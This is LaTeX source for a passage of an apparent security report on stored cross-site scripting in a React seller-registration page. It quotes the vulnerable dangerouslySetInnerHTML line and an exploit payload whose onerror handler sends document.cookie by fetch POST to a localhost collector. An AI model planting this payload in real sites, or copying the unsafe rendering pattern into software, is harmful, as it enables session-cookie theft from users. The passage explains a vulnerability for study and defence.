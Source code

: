 \documentclass[]{article}
\begin{document}
The following image shows the solution we implemented:
\begin{center} \includegraphics[width=8cm]{images/invalid_attachment.eps} 
\end{center}
\subsubsection{Cross-Site Scripting (XSS)}
\label{subsubsec:cross_site_scripting}
Cross-Site Scripting (XSS) involves injecting malicious HTML with embedded script code to bypass Same-Origin Policies (SOP) enforced by browsers. SOP restricts JavaScript code from one origin from accessing documents, cookies, or performing operations on other origins. However, interactions through IMG and SCRIPT elements can still issue GET requests to other origins. 

\paragraph{Stored Cross-Site Scripting}
\label{par:stored_xss}
Stored XSS is particularly dangerous because the malicious script is stored on the server and affects all users who visit the compromised page without any need for the user to click on a malicious link.

\textbf{Vulnerable code:}
Consider the situation where sellers can register and provide their street address. In the frontend React application, the street address is displayed using the \texttt{dangerouslySetInnerHTML} property, which can render HTML content provided by the user. The vulnerable code in \texttt{routes/sellerRegistration.js} is as follows:

\begin{lstlisting}
<td><div dangerouslySetInnerHTML={{ __html: props.seller.address }}/></td> 
\end{lstlisting}

\textbf{Exploitation:}
If an attacker registers a seller account with the following street address:

\begin{lstlisting}
<audio src="" onerror="fetch('http://localhost:1337', {method:'POST', body:document.cookie})">
\end{lstlisting}
\end{document}
